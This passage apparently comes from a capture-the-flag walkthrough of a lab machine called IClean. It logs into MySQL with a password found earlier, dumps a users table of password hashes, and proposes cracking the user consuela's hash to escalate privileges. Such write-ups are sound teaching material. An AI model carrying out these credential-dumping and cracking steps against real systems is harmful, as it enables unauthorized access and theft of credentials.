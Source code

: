 Let's connect to the database with these credentials.

```
mysql -h 127.0.0.1 -u iclean -D capiclean -p

Enter password: pxCsmnGLckUb
```

We display the tables.

```
show tables;

+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
```

We show all the contents of the `users` table in search of usernames and passwords that we can use to escalate privileges.

```
select * from users;

+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

We realize there is a user named `consuela` with a hashed password. We can try to crack it with brute force or check if it has already been cracked previously on a platform like [crackstation](https://crackstation.net/).

![crackstation](../../img/IClean/crackstation-password.png)
